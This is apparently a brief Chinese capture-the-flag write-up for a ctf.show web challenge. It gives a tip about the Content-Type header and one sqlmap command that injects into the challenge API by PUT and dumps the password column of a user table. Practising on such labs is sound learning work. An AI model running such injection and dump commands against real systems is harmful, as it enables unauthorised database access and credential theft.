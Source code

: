 # 知识点
# 思路
记得加上Content-Type: text/plain<br />不然data是以表单形式发送
```bash
sqlmap -u "http://00ab91ca-936c-4f20-a55c-fc72fd22c9d3.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump 
```
![image.png](./images/20231017_2351559058.png)

